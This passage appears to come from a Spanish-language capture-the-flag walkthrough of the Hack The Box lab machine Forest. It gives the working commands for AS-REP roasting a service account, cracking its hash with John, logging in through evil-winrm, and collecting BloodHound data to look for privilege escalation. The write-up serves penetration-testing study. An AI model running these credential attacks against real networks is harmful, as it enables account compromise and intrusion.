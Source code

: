 ![recon6](https://user-images.githubusercontent.com/55555187/160905812-bd3d2a4e-84f5-4954-b4d6-78665c3c4d59.png)

Pruebo a realizar un ASREPRoast attack sobre él.

```
GetNPUsers.py htb.local/svc-alfresco -no-pass 
```

Obteniendo un KRB_AS_REP.

![recon7](https://user-images.githubusercontent.com/55555187/160905814-457fd74d-760e-4303-99ac-acc458493df7.png)

Lo crackeo con John y obtengo su contraseña (**s3rvice**):

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Compruebo las credenciales con **crackmapexec** y miro si el usuario tiene acceso a alguna carpeta compartida por samba.

```
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice
```

![recon8](https://user-images.githubusercontent.com/55555187/160905816-fb2a48c1-5f6e-445f-9bae-c7052d3dee4c.png)

Sabiendo que winRM está abierto por el puerto 5985, pruebo a conectarme como svc-alfresco al sistema.

```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

![recon9](https://user-images.githubusercontent.com/55555187/160905818-efe2fd4a-c16d-42bf-8886-74f6951de3c4.png)

## Escalada de privilegios

Una vez que he obtenido acceso **bloodhound** para realizar un análisis de las posibles vias de escalada.

Para lanzar bloodhound hago lo siguiente:

1- Lanzo el servicio neo4j.

```
start neoj4 console
```

2- Lanzo bloodhound.

```
bloodhound &>/dev/null &
```

3- Obtengo los datos lanzando bloodhound.py desde mi equipo.

```
bloodhound.py -c all -u 'svc-alfresco' -p 's3rvice' -ns 10.10.10.161 -d htb.local
```
